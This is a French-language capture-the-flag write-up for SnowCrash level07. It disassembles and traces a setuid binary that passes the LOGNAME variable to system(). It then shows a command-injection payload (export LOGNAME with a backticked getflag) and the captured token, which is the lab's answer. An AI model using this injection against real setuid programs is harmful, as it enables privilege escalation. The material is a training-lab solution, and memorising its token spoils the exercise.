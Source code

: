 # LEvel 07

- On commence par regarder ce qu'on a avec `ls -l`
```
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```
On a un binaire avec des sticky rights qu'on commence a bien connaitre.
Maintenant il faut comprendre ce qu'il fait:
- `strings level07`   
RAS

- Du coup tristesse, la seule option qui nous reste : dump le binaire pour essayer de comprendre `objdump -D level07`

```objdump
08048514 <main>:
 8048514:	55                   	push   %ebp
 8048515:	89 e5                	mov    %esp,%ebp
 8048517:	83 e4 f0             	and    $0xfffffff0,%esp
 804851a:	83 ec 20             	sub    $0x20,%esp
 804851d:	e8 ce fe ff ff       	call   80483f0 <getegid@plt>
 8048522:	89 44 24 18          	mov    %eax,0x18(%esp)
 8048526:	e8 b5 fe ff ff       	call   80483e0 <geteuid@plt>
 804852b:	89 44 24 1c          	mov    %eax,0x1c(%esp)
 804852f:	8b 44 24 18          	mov    0x18(%esp),%eax
 8048533:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048537:	8b 44 24 18          	mov    0x18(%esp),%eax
 804853b:	89 44 24 04          	mov    %eax,0x4(%esp)
 804853f:	8b 44 24 18          	mov    0x18(%esp),%eax
 8048543:	89 04 24             	mov    %eax,(%esp)
 8048546:	e8 05 ff ff ff       	call   8048450 <setresgid@plt>
 804854b:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 804854f:	89 44 24 08          	mov    %eax,0x8(%esp)
 8048553:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 8048557:	89 44 24 04          	mov    %eax,0x4(%esp)
 804855b:	8b 44 24 1c          	mov    0x1c(%esp),%eax
 804855f:	89 04 24             	mov    %eax,(%esp)
 8048562:	e8 69 fe ff ff       	call   80483d0 <setresuid@plt>
 8048567:	c7 44 24 14 00 00 00 	movl   $0x0,0x14(%esp)
 804856e:	00
 804856f:	c7 04 24 80 86 04 08 	movl   $0x8048680,(%esp)
 8048576:	e8 85 fe ff ff       	call   8048400 <getenv@plt>
 804857b:	89 44 24 08          	mov    %eax,0x8(%esp)
 804857f:	c7 44 24 04 88 86 04 	movl   $0x8048688,0x4(%esp)
 8048586:	08
 8048587:	8d 44 24 14          	lea    0x14(%esp),%eax
 804858b:	89 04 24             	mov    %eax,(%esp)
 804858e:	e8 ad fe ff ff       	call   8048440 <asprintf@plt>
 8048593:	8b 44 24 14          	mov    0x14(%esp),%eax
 8048597:	89 04 24             	mov    %eax,(%esp)
 804859a:	e8 71 fe ff ff       	call   8048410 <system@plt>
 804859f:	c9                   	leave
 80485a0:	c3                   	ret
 80485a1:	90                   	nop
 80485a2:	90                   	nop
 80485a3:	90                   	nop
 80485a4:	90                   	nop
 80485a5:	90                   	nop
 80485a6:	90                   	nop
 80485a7:	90                   	nop
 80485a8:	90                   	nop
 80485a9:	90                   	nop
 80485aa:	90                   	nop
 80485ab:	90                   	nop
 80485ac:	90                   	nop
 80485ad:	90                   	nop
 80485ae:	90                   	nop
 80485af:	90                   	nop
```
- On repère la fonction asprintf qui semble print le nom du fichier
- On voit un getenv
- Pour mieux comprendre on fait un ltrace qui trace les appels aux librairies du binaire

`ltrace ./level07` result:
```
__libc_start_main(0x8048514, 1, 0xbffff6f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                 = 2007
geteuid()                                                 = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)       = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)       = 0
getenv("LOGNAME")                                         = "level07"
asprintf(0xbffff644, 0x8048688, 0xbfffff28, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                    = 0
+++ exited (status 0) +++
```

On repère un appelle de variable d'env "LOGNAME" suivi d'un call `system()` ou on aimerai injecter du code

```python
getenv("LOGNAME") = "level07"
system("/bin/echo level07 ")
```

Avec un peu de chance le `level07` de l'appel systeme `bin/echo level07` vient de la variable logname. verifions cela:

```bash
strings ./level07 | grep %s
/bin/echo %s
```

On remplace `LOGNAME` par `getflag` (backticks) pour run `/bin/echo 'getflag'`

```bash
export LOGNAME="\`getflag\`"
./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

Tadaaa !

## ⚡ Flag
`fiumuikeil55xe9cu4dood66h`